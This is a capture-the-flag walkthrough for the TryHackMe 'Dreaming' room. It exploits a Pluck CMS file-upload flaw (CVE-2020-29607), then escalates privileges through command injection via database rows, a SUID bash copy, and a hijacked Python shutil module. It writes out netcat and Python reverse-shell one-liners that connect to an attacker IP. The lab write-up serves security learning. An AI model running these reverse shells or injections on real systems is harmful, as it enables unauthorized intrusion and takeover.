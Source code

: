 # THM-Dreaming
![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5997701d-4379-41d2-b2bc-e2f97f37c4f4)



Personal attempt on THM CTF Challenge. [DREAMING](https://tryhackme.com/room/dreaming)

**RECON**

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/084772cd-94f9-46ba-b317-6d805eaa61e6)

Access the target's website, we can only see Apache's default site. Let's do some directory enumeration with nmap and http-enum script. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/016a5d24-38de-470c-8170-120b0a79eab5)

Accessing the directoy, we know that the web is using Pluck CMS 4.7.13

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/48925c1d-2d60-4869-903a-3c3c75efb00a)

**EXPLOIT**

Upon a quick Google search, we can tell that this version of Pluck is vulnerable to an Authenticated File Upload, as documented in CVE-2020-29607. However, first we need to authenticate. 
With some luck, I was able to guess the password. It's password (not very secured 🔒)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/944c85b0-9e3d-4599-aeaa-10cd9273ee47)

The mentioned vulnerability allows an attacker to upload a web shell to the directory http://IP/admin.php?action=files to gain a web shell. This abuses the "manage files" functionality of the app.

I use this PoC from Github: https://github.com/0xAbbarhSF/CVE-2020-29607

`Usage: python3 exploit.py TARGET IP TARGET PORT password pluck-cms-path`

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5b4795d2-805a-4e65-b5ba-a046e22eeafc)

Now, for more control and convenience, we want a reverse shell. I like to use the methods from
[pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

On your attack machine, start a Netcat listener on a random unused port.

`nc -lvnp 1234`

Then run this on the web shell

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

Remember to replace the IP with the IP of your attack machine. 

Wait a few a moment, then we receive a shell of the target machine as www-data. www-data is the owner of files under the web server directory.  

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/325565e4-6740-4f61-be04-977d00d318bb)

To gain a more stable shell, we can use the command:

`python3 -c 'import pty;pty.spawn("/bin/bash")`

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/d7cd8071-55ff-47ed-b56e-42da593972ef)

**PRIVILEGE ESCALATION**

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5e59087c-b25e-49f9-97dd-7ad1978fe37c)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/07a3dbb9-dee1-4bae-aaf0-164eac7ab22e)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/eac83ba7-0d52-4a95-aa16-d7d46a750ad8)

As you can see, www-data don't have read access to the flags so, to get the flags, we need to find ways to escalate to higher privileges. I am using [LinPeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)

To transfer it to the target machine, we can use the manage files nav bar (under Pages). Then script will be available at /var/www/html/files/linpeas.sh

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/05e6436c-6894-4ba0-b302-fee782a6f0be)


![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/6b71812c-f6a9-4f57-a5fc-2278f753f47d)

Thanks to LinPEAS, we find some interesting files: 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/6506e51b-dce4-4049-bf7b-ff6baf43a8f5)

**LUCIEN**

Opening the test.py, we found Lucien's password

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/b131a147-6ccb-4ea0-9b44-329fd18df755)

We can now SSH to the target using lucien's credentials. The flag is found under his home directory.

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/49d3c69a-2c2d-4440-af22-a8cd8775df65)

**DEATH**
Using **sudo -l**, we see that Lucien can run a Python script as Death. It is know our job how to exploit this script to gain Death's shell

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/6bdd772a-4e5b-491d-b8de-cb39119fa926)

The script in /opt seems to be identical with the script that we're going to exploit. However, we only have read acess, so let's skim its content to see what it does. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/7cbf69a6-ebaa-48fa-89a3-555fccee0317)

First, a connection to the local mySQL database named 'library' was made. We can also see credentials of death, but the password was redacted.

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/339f952f-77c0-4721-97ad-69240cbbe5c2)

Then the script fetches information from the 'dream' and the 'dreamer' column of the 'dreams' table.

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/5667a4d8-9866-4a42-88c2-4d4c7aeeb237)

Finally, it echos a string concatenating the values. We can abuse this to inject shell commands into the database and get them executed under death. 

Opening .bash_history in lucien's home directory. We found lucien's mysql password. 
`mysql -u lucien -p????????????????`

Using lucien's credentials we were able to log in. 
Here's the content of the 'dreams' table:

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/577970a3-0247-4a98-8d48-9485d01fa63c)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/c4fbcb5d-af7b-423c-96f7-cff091c397af)

Using the ';' character, I was able to chain the echo command with the cat command to view death's flag. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/44be4445-b81b-4344-a53e-7a03fbe926ba)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/2e5c2e0f-2a5a-4ba1-9f81-1630a8eb4c0d)

Still, we haven't gained death's shell. To do that, we copy /bin/bash to /tmp/bash and add a SUID bit. Therefore, we will have access to death's shell. 

Return to MySQL, and injects the command. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/0f511983-4f1c-4f31-96c4-25fffc2f9690)

Run the script again, and we have death's shell.

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/7f0500c8-6526-494e-aa38-734b3e016262)

Remember the redacted password in getDreams.py in death's home dir? We can view it now. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/ee85ccc9-c82b-4774-86a5-243bde038271)

Luckily, we can reuse the DB password to ssh to the target for more stable shell. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/bf278b4e-12f3-4d9b-884b-f9b40f5f76c7)



**MORPHEUS**
Looking at Morpheus's directory, we can see a script "restore.py"

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/33f4e18c-4aaa-4899-b908-7dbdd33e2fa6)

Let's take a look at its content:

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/8bc9db4a-bb2e-49c8-adcd-b8b495b0d925)

From the code, it might be a backup script that invokes a method from another module named "shutil". 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/d35bd6bf-3e20-4292-a141-c1d48b742bd2)

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/ca28b26d-9610-4c16-a544-8aef44da6447)

shutil.py's attributes show that death has permission to modify the content of shutil. Knowing this, we can create a reverse shell back to our host machine. 


`echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.74.5",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > /usr/lib/python3.8/shutil.py`

So how are we running the restore.py script? Since this is a backup script, so it might be scheduled as a cron job. We can use [pspy](https://github.com/DominicBreuker/pspy?tab=readme-ov-file)) to verify. I used scp to transfer the binary to the target machine. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/44146d3d-ab29-40c0-bdf9-9db5e8e142a2)

Once we confirm that, let's open a Netcat listener and wait for the incoming shell. 

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/1146a224-6097-4aec-8f2f-bd73326d5c00)


Ladies and Gentleman, we got 'em

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/8e23a6a8-3781-44e1-b3e0-7f5449b9d86e)

And Morpheus also has root privileges:

![image](https://github.com/QuanPham247/THM-Dreaming/assets/97132705/f89bcb57-7e7f-4175-baa4-0c3b7fc8694b)


Sources:
  - https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python
  - https://github.com/DominicBreuker/pspy?tab=readme-ov-file
  - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet












